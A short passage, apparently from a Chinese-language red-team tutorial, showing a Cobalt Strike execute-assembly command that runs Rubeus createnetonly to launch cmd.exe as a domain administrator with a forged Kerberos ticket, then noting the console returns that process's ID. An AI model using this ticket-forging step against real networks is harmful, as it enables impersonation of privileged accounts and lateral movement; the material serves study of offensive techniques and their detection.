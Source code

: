 [![](assets/1707953845-64b823cc9ffc13dd458caa133671c262.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040448-d06dca22-c461-1.png)

在 CS 控制台，我们使用 execute-assembly 创建一个新的进程

```bash
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:123456 /ticket:doIF1····0=
```

[![](assets/1707953845-c139016b3ae22fe12d655dfc35d70ba6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040459-d6ed5570-c461-1.png)

控制台会给出伪造票据的进程 id
